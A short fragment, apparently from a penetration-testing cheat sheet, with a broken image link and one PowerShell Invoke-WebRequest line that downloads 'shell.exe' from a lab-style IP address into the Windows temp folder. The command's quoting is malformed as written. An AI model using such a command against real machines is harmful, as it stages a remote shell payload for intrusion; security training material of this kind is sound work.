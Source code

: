 Grabbing file from http server:

`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.10.10:80/shell.exe' -OutFile 'c:\windows\temp\shell.exe'`


